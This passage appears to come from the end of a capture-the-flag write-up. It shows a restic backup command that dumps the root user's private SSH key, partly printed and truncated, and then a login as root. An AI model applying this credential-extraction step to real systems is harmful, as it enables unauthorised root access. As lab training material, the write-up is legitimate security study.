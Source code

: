 ```bash
```

From here, we can dump the private SSH key of the `root` user.

```bash
$ restic -r . dump latest /root/.ssh/id_rsa
enter password for repository: 
repository 6ad1468c opened (repository version 1) successfully, password is correct
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAmiGiXpswTyHhjgC55jHRWlGX1asEMyDFfkVwhuNohv/4cQKm
<TRUNCATED>
```

Then we can SSH in as `root`.

<figure><img src="../../../.gitbook/assets/image (2) (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

Cool machine. Really good despite being like 3 years old.
